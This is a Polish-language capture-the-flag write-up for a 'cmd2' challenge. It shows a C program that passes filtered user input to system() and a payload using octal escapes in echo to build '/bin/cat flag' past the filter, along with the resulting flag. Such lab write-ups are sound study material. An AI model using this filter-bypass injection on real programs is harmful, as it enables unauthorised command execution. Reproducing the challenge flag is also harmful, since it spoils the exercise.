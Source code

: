 ## cmd1 - 9 pt ##

Flaga: `FuN_w1th_5h3ll_v4riabl3s_haha`

Kod źródłowy **cmd2.c**:

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}

```
* Rozszerzenie zadania cmd1 z większą liczbą filtrów na input oraz czyszczeniem zmiennych środowiskowych przed sprawdzeniem wejścia
* Generalnie ja radzę sobie z takimi typem zadań, określając możliwe formaty dostarczenia inputu - najbardziej oczywistym w tym przypadku wydaje się oczywiście ASCII
* Kolejnym krokiem jest określenie możliwości dostarczenia inputu w wybranym formacie i jak to zrobić w ramach ograniczenia danego zadania
  * Dostarczone polecenie uruchamiane jest przez program za pomocą funkcji `system()` - zaglądając jej pod "maskę" polecenie wygląda w następujący sposób: `execl("/bin/sh", "sh", "-c", cmd, (char *) 0);`
  * Interesującym faktem jest to, że pod `bash` i `sh` progam `echo` działa w różny sposób:
    * `bash` - `echo '\57'` daje `\57`
    * `sh` - `echo '\57'` daje `/`
* Mając ten fakt na uwadze możemy podać ścieżkę `/bin/cat /home/cmd2/flag` w bajtach ASCII i w ten sposób obejść wszelkie ograniczenia zadania:
```
cmd2@ubuntu:~$ ./cmd2 '$(echo "\57\142\151\156\57\143\141\164\40\146\154\141\147")'
$(echo "\57\142\151\156\57\143\141\164\40\146\154\141\147")
FuN_w1th_5h3ll_v4riabl3s_haha
```
